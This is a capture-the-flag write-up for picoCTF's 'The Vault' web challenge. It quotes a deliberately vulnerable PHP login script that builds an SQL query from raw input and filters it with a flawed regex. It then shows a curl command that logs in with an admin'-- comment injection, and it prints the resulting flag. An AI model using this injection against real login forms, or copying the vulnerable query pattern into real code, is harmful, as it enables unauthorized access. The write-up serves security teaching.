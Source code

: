 # The Vault (web, 250pts)

> There is a website running at http://2018shell.picoctf.com:22430. Try to see if you can login!

Navigating to the website gives us a login form and a link to source code for `login.php`:

```php
<?php
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $debug = $_POST["debug"];
  $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";

  if (intval($debug)) {
    echo "<pre>";
    echo "username: ", htmlspecialchars($username), "\n";
    echo "password: ", htmlspecialchars($password), "\n";
    echo "SQL query: ", htmlspecialchars($query), "\n";
    echo "</pre>";
  }

  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
  else {
    $result = $con->query($query);
    $row = $result->fetchArray();
    
    if ($row) {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<h1>Login failed.</h1>";
    }
  }
?>
```

There's a regular expression check that prevents us from using `OR` to allow any password, so we'll have to find a
bypass that doesn't use `OR`.

The username field is a good candidate, as we can use a [comment]([docs](https://www.sqlite.org/lang_comment.html))
(`--`) to disregard the rest of the query:

```
curl 'http://2018shell.picoctf.com:22430/login.php' --data "username=admin'--&password=&debug=1"
<pre>username: admin'--
password: 
SQL query: SELECT 1 FROM users WHERE name='admin'--' AND password=''
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{w3lc0m3_t0_th3_vau1t_06857925}</p>
```

```
picoCTF{w3lc0m3_t0_th3_vau1t_06857925}
```
